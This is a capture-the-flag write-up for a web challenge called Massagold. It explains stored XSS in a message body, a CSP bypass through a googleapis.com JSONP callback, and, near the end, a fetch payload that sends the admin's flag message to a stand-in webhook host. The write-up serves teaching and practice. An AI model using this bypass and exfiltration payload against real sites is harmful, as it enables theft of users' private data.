




 <font size='10'>Massagold</font>

22<sup>nd</sup> June 2026

Prepared By: `lordrukie`

Challenge Author(s): `lordrukie`

Difficulty: <font color='green'>Very Easy</font>

<br><br>


# Synopsis

Massagold is a web challenge about stored XSS under a restrictive CSP. We send a crafted message to the admin, use a trusted Google APIs JSONP style endpoint to load JavaScript through the allowed `script-src`, and read the admin only message that contains the flag.

## Description

Crownspire’s sealed letters carry orders that can still change the fate of the realm. One hidden record could expose how Vaultrune’s false authority is moving through the city, but it is locked behind a privileged custodian’s eyes. Find a way through the rookery’s message chain and recover the proof before another forged command becomes law.

## Skills Required

- Web application source code review
- Web vulnerability identification and exploitation
- Web security policy analysis

## Skills Learned

- Bypassing restrictive Content Security Policies (CSP) using trusted endpoints like Google APIs JSONP
- Exploiting JSONP callback parameters to execute arbitrary JavaScript in CSP-protected contexts
- Extracting and exfiltrating sensitive data from XSS

# Enumeration

We start with a letter based web application. After registration and login, we can view our inbox and compose a new letter.



The compose page lets us choose a recipient username and write the message body.



The message page renders the sealed letter after opening it.




## Analyzing the source code

The seed script creates several users during startup. It reads `/flag.txt` and puts the flag inside a message sent to `admin`.

```js
const flagPath = '/flag.txt';

const flag = fs.existsSync(flagPath)
  ? fs.readFileSync(flagPath, 'utf8').trim()
  : 'flag file missing';

await createMessage(
  users.archivist,
  users.admin,
  `Archive notice:\n\nThe sealed royal record reads:\n${flag}`
);
```

Messages are stored with a sender, a recipient, and raw content.

```js
await run(`
  INSERT INTO messages (
    sender_id,
    recipient_id,
    from_label,
    content
  )
  VALUES (?, ?, ?, ?)
`, [
  sender.id,
  recipient.id,
  sender.username,
  content
]);
```

The message route only returns messages owned by the current session user. That means the flag message can be read by the admin session.

```js
const message = await get(`
  SELECT
    messages.id,
    messages.from_label,
    messages.content,
    messages.created_at,
    users.username AS sender_username
  FROM messages
  JOIN users ON users.id = messages.sender_id
  WHERE messages.id = ?
    AND messages.recipient_id = ?
`, [req.params.id, req.session.user.id]);
```

When a message is sent to `admin`, the application enqueues a bot visit as admin to the newly created message.

```js
if (recipient.username === 'admin') {
  enqueueMessageVisit(result.lastID);
}
```

The bot logs in with the admin credentials and opens the message URL.

```js
async function visitMessage(messageId) {
  const browser = await firefox.launch({
    headless: true
  });
  const context = await browser.newContext();

  try {
    const page = await context.newPage();
    const targetUrl = appUrl(`/messages/${encodeURIComponent(messageId)}`);

    await loginAsAdmin(page);
    console.log(`Admin bot visiting ${targetUrl}`);
    await page.goto(targetUrl, {
      waitUntil: 'load',
      timeout: VISIT_TIMEOUT_MS
    });
    await page.waitForTimeout(WAIT_AFTER_LOAD_MS);
  } finally {
    await context.close().catch(() => {});
    await browser.close().catch(() => {});
  }
}
```

The source also shows the CSP header. At this point we only note the script sources that the browser accepts.

```js
res.setHeader(
  'Content-Security-Policy',
  [
    "default-src 'self'",
    "script-src 'self' https://www.googleapis.com",
    "style-src 'self'",
    "img-src 'self' data:",
    "font-src 'self' data:",
    "connect-src 'self'",
    "object-src 'none'",
    "form-action 'self'",
    "frame-ancestors 'none'"
  ].join('; ')
);
```

# Solution

## Finding the vulnerability

Now we check how a message body is placed into the page. The message template renders `message.content` with unescaped EJS output.

```ejs
<pre class="letter-copy"><%- message.content %></pre>
```

That gives us stored HTML injection in a message body. Since the admin bot opens messages sent to `admin`, this turns into stored XSS.

The CSP allows JavaScript from the application itself and from `www.googleapis.com`.

A simple Google search around CSP bypass and JSONP leads us to https://hacktricks.wiki/en/pentesting-web/content-security-policy-csp-bypass/index.html. HackTricks explains that JSONP endpoints on a trusted `script-src` domain can be useful when the endpoint reflects a `callback` value into a JavaScript response. Since `www.googleapis.com` is trusted here, we test the endpoint and focus on its `callback` parameter.

The shape we want is a script tag loaded from Google APIs.

```html
<script src="https://www.googleapis.com/customsearch/v1?callback=alert(1);"></script>
```

The endpoint responds as JavaScript and places our callback at the start of the response. That gives us script execution from an origin allowed by the CSP.



## Exploitation

Now we have XSS. The next question is how we obtain the flag.

As we saw before, the flag is stored inside one of the messages for admin. We cannot steal the admin cookie because the `HttpOnly` option is enabled. We can still read the message response in the admin session and send it back to our webhook. The JavaScript logic looks like this.

```js
    fetch(`/messages/1`)
    .then(function f1(r) {
        console.log(r);
        return r.text();
    })
    .then(function f2(txt) {
        console.log(txt);
        location.href = `https://ourwebhooksite.com?` + btoa(txt);
    });
```

We register an account, send the payload to `admin`, and wait for the bot to open the message. Once the script runs in the admin session, it reads `/messages/1` and sends the encoded response to our webhook.

## References

- [Content Security Policy CSP Bypass](https://hacktricks.wiki/en/pentesting-web/content-security-policy-csp-bypass/index.html)
